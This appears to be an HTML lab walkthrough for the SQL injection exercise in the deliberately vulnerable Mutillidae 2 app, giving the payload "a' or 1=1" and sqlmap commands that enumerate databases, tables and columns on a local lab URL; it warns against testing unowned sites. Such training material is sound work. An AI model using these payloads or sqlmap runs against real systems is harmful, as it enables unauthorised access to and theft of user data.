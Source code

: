 # A1
<h2>Extracting Data</h2>

<p>We are dealing with a case of SQL Injection here. So we need to escape the intended context and fetch all users.
This one breaks down with the simplest and most trivial, <i><b>a' or 1=1</b></i>.
This causes the <i>"WHERE"</i> clause to return true and all the user details are displayed without any hassle. We have successfully used SQLINJECTION to get our hands on sensitive data.
</p>

<p>
	<h3>Note</h3>
	Please do not go about trying inserting SQL injection based input on webistes not owned by you, or sites on which you do not have permissions to perform tests on. Modern architectures have IDS setup which will monitor suspicious activity ,and report your IP. 
</p>

<h3>Execution</h3>
<ol>
	<li>Manually submit values via browser interface</li>
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	<li>
		Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
		using Mechanize. (sqlinjection.py). It can be modified to be bit smart and adaptive. For now it snipes on the User Info page.
	</li>
	<li>
		Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.
		SQLMap ships by default with Kali Linux.
		<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
					locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
					./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
						./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
						Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
						<pre>
							./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
						</pre>
</li>
					</li>
</ol>

